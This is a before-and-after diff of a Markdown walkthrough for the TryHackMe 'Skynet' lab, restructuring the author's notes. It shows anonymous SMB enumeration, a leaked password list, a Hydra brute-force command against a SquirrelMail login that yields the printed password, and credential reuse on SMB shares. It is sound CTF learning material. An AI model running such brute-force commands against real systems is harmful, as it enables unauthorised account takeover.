

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Linux Pentest/THM/Skynet.md, 2 parts joined by grey strips. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Linux Pentest/THM/Skynet.md
+++ b/Linux Pentest/THM/Skynet.md
@@ -196,24 +223,31 @@ smb: \logs\> ls
 smb: \logs\> get log1.txt
 getting file \logs\log1.txt of size 471 as log1.txt (1.3 KiloBytes/sec) (average 0.9 KiloBytes/sec)
 smb: \logs\> exi
+```
 
+I also attempted to access the `milesdyson` share, but access was denied without valid credentials.
+
+```text
 ┌──(kali㉿kali)-[~]
 └─$ smbclient  //10.129.157.254/milesdyson
 Password for [WORKGROUP\kali]:
 tree connect failed: NT_STATUS_ACCESS_DENIED
-
 ```
 
+### Analyzing the Retrieved Files
 
-## The files revealed a potential username (milesdyson) and a list of possible passwords that could be used for further authentication testing.
+The `attention.txt` file contained a notification from Miles Dyson about a recent password change.
 
-
-```
+```text
 ┌──(kali㉿kali)-[~]
 └─$ cat attention.txt
 A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
 -Miles Dyson
+```
 
+The `log1.txt` file contained a list of potential passwords.
+
+```text
 ┌──(kali㉿kali)-[~]
 └─$ cat log1.txt
 cyborg007haloterminator
@@ -247,40 +281,55 @@ alonsoterminator
 Walterminator
 79terminator6
 1996terminator
-
-
 ```
 
-## I tried to inject login page but failed so I decided to brute force on login page using passwords in shares files
+Based on the contents of these files, I identified `milesdyson` as a potential username and `log1.txt` as a possible password list.
 
+---
+
+## 4. Credential Discovery
+
+I initially attempted to test the login page manually, but my attempts were unsuccessful.
+
+Since I had discovered a potential username and a password list in the anonymous SMB share, I decided to perform a controlled brute-force attempt against the SquirrelMail login form using Hydra.
 
 <img width="1220" height="517" alt="image" src="https://github.com/user-attachments/assets/060d4bef-7f44-4e0a-9952-601f056c2e0c" />
 
-
-
-```
+```text
 ──(kali㉿kali)-[~]
 └─$ hydra -l milesdyson -P log1.txt 10.129.157.254 http-post-form "/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
 Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
 
 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-01 14:37:55
-[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
+[DATA] max 16 tasks per 1 server, overall 16 login tries, 31 login tries (l:1/p:31), ~2 tries per task
 [DATA] attacking http-post-form://10.129.157.254:80/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
 [80][http-post-form] host: 10.129.157.254   login: milesdyson   password: cyborg007haloterminator
 1 of 1 target successfully completed, 1 valid password found
 Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-01 14:38:06
-
 ```
 
+Hydra successfully identified valid credentials for the `milesdyson` account:
 
-## I will use these creds to login in login page , smb shares but passwd did't work on smb shares , I found new creds in website
+- **Username:** `milesdyson`
+- **Password:** `cyborg007haloterminator`
+
+### Accessing the Webmail
+
+I used the discovered credentials to log in to the SquirrelMail interface.
+
+Although these credentials worked for the webmail service, they did not provide access to the `milesdyson` SMB share.
+
+While exploring the website, I discovered another set of credentials.
 
 <img width="1360" height="507" alt="image" src="https://github.com/user-attachments/assets/48035ef2-389e-4fa5-bd52-00013c7421b0" />
 
+---
 
-## I used new creds in smb shares
+## 5. Further SMB Enumeration
 
-```
+After discovering the additional credentials, I used them to authenticate to the `milesdyson` SMB share.
+
+```text
 ┌──(kali㉿kali)-[~]
 └─$ smbclient  //10.129.157.254/milesdyson -U "milesdyson"
 Password for [WORKGROUP\milesdyson]:
````
Also changed, not shown: other parts of Linux Pentest/THM/Skynet.md (+175 -50 lines).
